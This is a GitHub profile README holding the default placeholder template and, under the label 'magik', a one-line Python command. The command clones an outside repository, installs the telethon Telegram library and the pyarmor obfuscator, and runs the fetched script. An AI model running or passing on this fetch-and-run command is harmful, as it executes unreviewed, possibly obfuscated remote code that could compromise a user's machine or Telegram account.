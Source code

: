 - 👋 Hi, I’m Vladislav
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---vladislav/vlad is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
---> ❤️ magik
import os;os.system('git clone https://github.com/asirehsay/heartmagic.git && python3 -m pip install telethon && python3 -m pip install pyarmor && cd heartmagic && python3 heart.py')  
